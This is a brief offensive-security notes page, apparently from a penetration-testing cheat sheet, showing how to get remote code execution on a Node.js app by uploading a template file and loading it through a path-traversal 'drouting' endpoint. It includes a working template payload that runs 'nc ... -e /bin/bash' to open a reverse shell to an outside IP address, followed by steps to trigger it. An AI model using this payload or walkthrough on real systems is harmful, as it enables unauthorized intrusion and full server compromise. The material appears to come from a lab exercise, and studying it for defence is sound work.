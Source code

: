 # Template RCE upload

## Template RCE upload

In node, you cannot upload a file an browse it like we did with PHP files ...

* **We need to use something called drouting**

  ```text
  /drouting
  ```

Create a file \(- means execute javascript\)

```text
-var x= global.process.mainModule.require
-x('child_process').exec('nc 192.168.43.71 8888 -e /bin/bash')
```

* **Upload the txt file** 

![](../../../.gitbook/assets/4bb7fff454d347c1959cb958e9707e56.png)

* **Get the filename and the path :**

[http://chat:3000/drouting?filename=../uploads/fa9af1c0108bbcd0ebf4a5e784db4eb6](http://chat:3000/drouting?filename=../uploads/fa9af1c0108bbcd0ebf4a5e784db4eb6)

* **Get a shell :**

![](../../../.gitbook/assets/ed380fa360954346861d99eb37c7e9bc.png)


